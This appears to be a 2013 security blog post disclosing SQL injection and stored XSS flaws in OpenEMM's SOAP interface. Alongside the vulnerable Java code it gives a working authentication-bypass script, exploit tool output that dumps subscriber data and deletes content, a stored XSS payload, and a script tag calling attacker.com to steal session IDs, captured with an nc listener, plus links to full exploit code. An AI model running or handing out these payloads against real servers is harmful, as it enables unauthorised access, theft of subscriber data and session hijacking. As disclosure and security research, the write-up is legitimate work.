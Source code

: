 ```yaml
---
categories:
- sqli
- xss
- openemm
comments: false
date: "2013-07-28T22:24:15Z"
title: OpenEMM-2013 SOAP SQLi/Stored XSS
---
```


[OpenEMM](http://www.openemm.org/) is one of the most popular enterprise-grade email marketing software currently on the market; the best part of it, too, is that it's free and open source.  The entire stack is java, with some random shell/Python scripts for configuration.  On inspection of the software, it appeared there were several SQL injection vulnerabilities due in part to a lack of input sanitation.  This vulnerability was privately disclosed to the vendor, and a patch will be released shortly and backported to OpenEMM 2013 and 2011.

Paramaterized queries are not used consistently throughout the application; there are instances of paramterized queries, queries with basic sanitization, and queries without sanitization at all.  SQL queries are sanitized with the following function (SafeString.java):

```
  /**
     * Gets the SQL string.
     */
    public static String getSQLSafeString(String input) {
        if (input == null) {
            return " ";
        } else {
            return input.replace("'", "''");
        }
    }
```        

This function inadequately sanitizes input.  The following malicious input would successfully slip through:

```
\' AND UNION SELECT 1,2,3;-- 
```

Which, when inserted into an example query `SELECT * FROM admin WHERE username = '$user';` becomes
`SELECT * FROM admin WHERE username = '\'' AND UNION SELECT 1,2,3;-- ';`

This sanitation function is used throughout OpenEMM, and any OpenEMM server exposing WSDL, or Web Services Description Language, is vulnerable.  A default OpenEMM installation exposes a handful of useful functions that allow a remote application/user access to various tables in the database.  Each function requires authentication, which runs through the following routine (WebServiceBase.java):

```
protected boolean authenticateUser(MessageContext msct, String user, String pwd, int companyID) {
        boolean result=false;
        Connection dbConn=this.getConnection(msct);
        Statement agnStatement=null;
        ResultSet rset=null;
        
        try {
            agnStatement=dbConn.createStatement();
            rset=agnStatement.executeQuery("select a.ws_admin_id from ws_admin_tbl a where a.username='"+SafeString.getSQLSafeString(user)+"' and a.password='"+SafeString.getSQLSafeString(pwd)+"'");
            if(rset!=null && rset.next()) {
                result=true;
            } else {
                result=false;
                HttpServletRequest req=(HttpServletRequest)msct.getProperty("transport.http.servletRequest");
                log.info(req.getRemoteAddr()+" -0-l: login failed: "+user+" "+companyID);
            }
```

As shown, the vulnerable `getSQLSafeString` method is used in an attempt to sanitize input before building and executing the query.  This leads to a very trivial authentication bypass vulnerability, allowing any malicious user access to every WSDL function (found at `http://yourhost.com/emm_webservices`).

The following code will bypass SOAP authentication and add a new mailing list:

```
from SOAPpy import WSDL

wsdl_file = "./ws.wsdl"
sploit = "\\' OR 1=1;-- "

_server = WSDL.Proxy(wsdl_file)
ret = _server.addMailinglist("wsadmin", sploit, "w00t", "w00t")
if ret > 0:
    print 'success (%d)'%ret
```

This requires a very basic WSDL file, which is included with an OpenEMM installation as well as the bottom of this post.  I've included exploit code that exploits several of these functions:

```
root@jali:~/exploits# python openemm_wsdl.py -h
usage: openemm_wsdl.py [-h] -i HOST [-s] [-m MLIST] [--dm] [--ds]

optional arguments:
  -h, --help  show this help message and exit
  -i HOST     server address
  -s          fetch all subscribers
  -m MLIST    create new mailing list (XSS)
  --dm        delete all mailing lists
  --ds        delete all subscribers
root@jali:~/exploits# python openemm_wsdl.py -i 192.168.1.83 -s
<SOAPpy.Types.structType multiRef at 30449464>: {'x': ['2013', '2013-06-29 17:54:02', 'Last', 'First', '2', '29', '0', '17', '2013', '2013-06-29 17:54:02', '', '1', '54', '6', 'first.last@domain.org', '2', '6', '29', '54', '0', '17', '1']}
<SOAPpy.Types.structType multiRef at 30446728>: {'x': ['2013', '2013-06-29 17:54:02', 'Name', 'No', '2', '29', '0', '17', '2013', '2013-06-29 17:54:02', '', '1', '54', '6', 'no.name@yourdomain.com', '2', '6', '29', '54', '0', '17', '2']}
[!] Discovered 2 subscribers
root@jali:~/exploits# 
```

Our "end goal" for this exploit is, however, not just adding mailing lists or deleting content; we'd like to obtain a web shell.  As OpenEMM is written in Java (struts), Java Server Pages (JSP) are invoked server-side to render client-side pages.  Theoretically, we should be able to dump a malicious JSP file into a readable/writable directory and obtain a remote shell.

Unfortunately (fortunately for users/OpenEMM, though), the user used to connect to the MySQL database does not have FILE permissions:

```
mysql> select user();
+-------------------+
| user()            |
+-------------------+
| agnitas@localhost |
+-------------------+
1 row in set (0.00 sec)

mysql> show grants;
+----------------------------------------------------------------------------------------------------------------------------------------------------+
| Grants for agnitas@localhost                                                                                                                       |
+----------------------------------------------------------------------------------------------------------------------------------------------------+
| GRANT USAGE ON *.* TO 'agnitas'@'localhost' IDENTIFIED BY PASSWORD '*BC428C4FAA04992D1E8CF04545DD70FA60E588C5'                                     |
| GRANT SELECT, INSERT, UPDATE, DELETE, CREATE, DROP, INDEX, ALTER, CREATE TEMPORARY TABLES, LOCK TABLES ON `openemm`.* TO 'agnitas'@'localhost'     |
| GRANT SELECT, INSERT, UPDATE, DELETE, CREATE, DROP, INDEX, ALTER, CREATE TEMPORARY TABLES, LOCK TABLES ON `openemm_cms`.* TO 'agnitas'@'localhost' |
+----------------------------------------------------------------------------------------------------------------------------------------------------+
3 rows in set (0.00 sec)

mysql> 
```

This is the user specified by `webapps/openemm/WEB-INF/classes/emm.properties`.  As shown, we have only basic access to the databases.  In the event that this user and permissions are modified, it is possible to upload a web shell, but in its default state, you cannot.

From this SQL injection, then, we have authentication bypass and information disclosure.  Because this interface inserts data directly into databases, and does not go through a unified channel (i.e. for their basic sanitation methods), several fields are vulnerable to XSS, including a new mailing list's Description field:

```
root@jali:~/exploits# python openemm_wsdl.py -i 192.168.1.83 -m w00t
[!] Description field vulnerable to stored xss!
[!] Enter mlist description: <script>alert('XSS!')</script>
[!] Saved successfully
root@jali:~/exploits# 
```

{{< figure class="center" src="http://2.bp.blogspot.com/-lYlTr36HnSM/Uer_nBvALcI/AAAAAAAAAhY/vtunAxjrjfs/s640/xss.jpg" >}}

With this, we can siphon off session ID's by simply injecting `<script src="http://attacker.com"/>`.  We do not need to send document.cookie because, surprise, session ID's are not stored as a cookie, but rather passed around through each GET/POST request.  Therefore, the Referrer header will contain the jsessionid required to hijack the session.  Our hijacked request looks as such:

```
root@jali:~/exploits# nc -l -p 80
GET / HTTP/1.1
Host: 192.168.1.147
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:22.0) Gecko/20100101 Firefox/22.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.83:8080/mailinglist.do;jsessionid=CBD95DD7B9B1ABF9C8922BC2DC5047E3?action=1
Connection: keep-alive

^C
root@jali:~/exploits# 
```

We then simply make the same request in the Referrer field and we've got access to the account.

[Exploit](http://pastebin.com/JLh7BYYj)<br/>
[wsdl](http://pastebin.com/GXdw3FcQ)
